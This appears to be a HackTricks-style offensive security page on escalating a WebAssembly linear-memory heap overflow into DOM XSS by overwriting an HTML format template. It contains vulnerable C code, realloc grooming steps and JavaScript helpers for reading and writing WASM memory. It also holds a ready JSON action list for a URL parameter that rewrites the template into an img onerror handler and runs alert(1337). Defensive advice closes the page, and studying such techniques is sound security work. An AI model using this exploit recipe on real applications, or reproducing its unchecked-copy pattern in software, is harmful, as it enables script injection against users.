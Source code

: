 # WebAssembly linear memory corruption to DOM XSS (template overwrite)

{{#include ../../banners/hacktricks-training.md}}

This technique shows how a memory-corruption bug inside a WebAssembly (WASM) module compiled with Emscripten can be weaponized into a reliable DOM XSS even when input is sanitized. The pivot is to corrupt writable constants in WASM linear memory (e.g., HTML format templates) instead of attacking the sanitized source string.

Key idea: In the WebAssembly model, code lives in non-writable executable pages, but the module’s data (heap/stack/globals/"constants") live in a single flat linear memory (pages of 64KB) that is writable by the module. If buggy C/C++ code writes out-of-bounds, you can overwrite adjacent objects and even constant strings embedded in linear memory. When such a constant is later used to build HTML for insertion via a DOM sink, you can turn sanitized input into executable JavaScript.

Threat model and preconditions
- Web app uses Emscripten glue (Module.cwrap) to call into a WASM module.
- Application state lives in WASM linear memory (e.g., C structs with pointers/lengths to user buffers).
- Input sanitizer encodes metacharacters before storage, but later rendering builds HTML using a format string stored in WASM linear memory.
- There is a linear-memory corruption primitive (e.g., heap overflow, UAF, or unchecked memcpy).

Minimal vulnerable data model (example)
```c
typedef struct msg {
    char *msg_data;       // pointer to message bytes
    size_t msg_data_len;  // length after sanitization
    int msg_time;         // timestamp
    int msg_status;       // flags
} msg;

typedef struct stuff {
    msg *mess;            // dynamic array of msg
    size_t size;          // used
    size_t capacity;      // allocated
} stuff; // global chat state in linear memory
```

Vulnerable logic pattern
- addMsg(): allocates a new buffer sized to the sanitized input and appends a msg to s.mess, doubling capacity with realloc when needed.
- editMsg(): re-sanitizes and memcpy’s the new bytes into the existing buffer without ensuring the new length ≤ old allocation → intra‑linear‑memory heap overflow.
- populateMsgHTML(): formats sanitized text with a baked stub like "<article><p>%.*s</p></article>" residing in linear memory. The returned HTML lands in a DOM sink (e.g., innerHTML).

Allocator grooming with realloc()
```c
int add_msg_to_stuff(stuff *s, msg new_msg) {
    if (s->size >= s->capacity) {
        s->capacity *= 2;
        s->mess = (msg *)realloc(s->mess, s->capacity * sizeof(msg));
        if (s->mess == NULL) exit(1);
    }
    s->mess[s->size++] = new_msg;
    return s->size - 1;
}
```
- Send enough messages to exceed the initial capacity. After growth, realloc() often places s->mess immediately after the last user buffer in linear memory.
- Overflow the last message via editMsg() to clobber fields inside s->mess (e.g., overwrite msg_data pointers) → arbitrary pointer rewrite within linear memory for data later rendered.

Exploit pivot: overwrite the HTML template (sink) instead of the sanitized source
- Sanitization protects input, not sinks. Find the format stub used by populateMsgHTML(), e.g.:
  - "<article><p>%.*s</p></article>" → change to "<img src=1      onerror=%.*s>"
- Locate the stub deterministically by scanning linear memory; it is a plain byte string within Module.HEAPU8.
- After you overwrite the stub, sanitized message content becomes the JavaScript handler for onerror, so adding a new message with text like alert(1337) yields <img src=1 onerror=alert(1337)> and executes immediately in the DOM.

Chrome DevTools workflow (Emscripten glue)
- Break on the first Module.cwrap call in the JS glue and step into the wasm call site to capture pointer arguments (numeric offsets into linear memory).
- Use typed views like Module.HEAPU8 to read/write WASM memory from the console.
- Helper snippets:
```javascript
function writeBytes(ptr, byteArray){
  if(!Array.isArray(byteArray)) throw new Error("byteArray must be an array of numbers");
  for(let i=0;i<byteArray.length;i++){
    const byte = byteArray[i];
    if(typeof byte!=="number"||byte<0||byte>255) throw new Error(`Invalid byte at index ${i}: ${byte}`);
    HEAPU8[ptr+i]=byte;
  }
}
function readBytes(ptr,len){ return Array.from(HEAPU8.subarray(ptr,ptr+len)); }
function readBytesAsChars(ptr,len){
  const bytes=HEAPU8.subarray(ptr,ptr+len);
  return Array.from(bytes).map(b=>(b>=32&&b<=126)?String.fromCharCode(b):'.').join('');
}
function searchWasmMemory(str){
  const mem=Module.HEAPU8, pat=new TextEncoder().encode(str);
  for(let i=0;i<mem.length-pat.length;i++){
    let ok=true; for(let j=0;j<pat.length;j++){ if(mem[i+j]!==pat[j]){ ok=false; break; } }
    if(ok) console.log(`Found "${str}" at memory address:`, i);
  }
  console.log(`"${str}" not found in memory`);
  return -1;
}
const a = bytes => bytes.reduce((acc, b, i) => acc + (b << (8*i)), 0); // little-endian bytes -> int
```

End-to-end exploitation recipe
1) Groom: add N small messages to trigger realloc(). Ensure s->mess is adjacent to a user buffer.
2) Overflow: call editMsg() on the last message with a longer payload to overwrite an entry in s->mess, setting msg_data of message 0 to point at (stub_addr + 1). The +1 skips the leading '<' to keep tag alignment intact during the next edit.
3) Template rewrite: edit message 0 so its bytes overwrite the template with: "img src=1      onerror=%.*s ".
4) Trigger XSS: add a new message whose sanitized content is JavaScript, e.g., alert(1337). Rendering emits <img src=1 onerror=alert(1337)> and executes.

Example action list to serialize and place in ?s= (Base64-encode with btoa before use)
```json
[
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"edit","msgId":10,"content":"aaaaaaaaaaaaaaaa.\u0000\u0001\u0000\u0050","time":1756885686080},
  {"action":"edit","msgId":0,"content":"img src=1      onerror=%.*s ","time":1756885686080},
  {"action":"add","content":"alert(1337)","time":1756840476392}
]
```

Why this bypass works
- WASM prevents code execution from linear memory, but constant data inside linear memory is writable if program logic is buggy.
- The sanitizer only protects the source string; by corrupting the sink (the HTML template), sanitized input becomes the JS handler value and executes when inserted into the DOM.
- realloc()-driven adjacency plus unchecked memcpy in edit flows enables pointer corruption to redirect writes to attacker-chosen addresses within linear memory.

Generalization and other attack surface
- Any in-memory HTML template, JSON skeleton, or URL pattern embedded in linear memory can be targeted to change how sanitized data is interpreted downstream.
- Other common WASM pitfalls: out-of-bounds writes/reads in linear memory, UAF on heap objects, function-table misuse with unchecked indirect call indices, and JS↔WASM glue mismatches.

Defensive guidance
- In edit paths, verify new length ≤ capacity; resize buffers before copy (realloc to new_len) or use size-bounded APIs (snprintf/strlcpy) and track capacity.
- Keep immutable templates out of writable linear memory or integrity-check them before use.
- Treat JS↔WASM boundaries as untrusted: validate pointer ranges/lengths, fuzz exported interfaces, and cap memory growth.
- Sanitize at the sink: avoid building HTML in WASM; prefer safe DOM APIs over innerHTML-style templating.
- Avoid trusting URL-embedded state for privileged flows.

## References
- [Pwning WebAssembly: Bypassing XSS Filters in the WASM Sandbox](https://zoozoo-sec.github.io/blogs/PwningWasm-BreakingXssFilters/)
- [V8: Wasm Compilation Pipeline](https://v8.dev/docs/wasm-compilation-pipeline)
- [V8: Liftoff (baseline compiler)](https://v8.dev/blog/liftoff)
- [Debugging WebAssembly in Chrome DevTools (YouTube)](https://www.youtube.com/watch?v=BTLLPnW4t5s&t)
- [SSD: Intro to Chrome exploitation (WASM edition)](https://ssd-disclosure.com/an-introduction-to-chrome-exploitation-webassembly-edition/)

{{#include ../../banners/hacktricks-training.md}}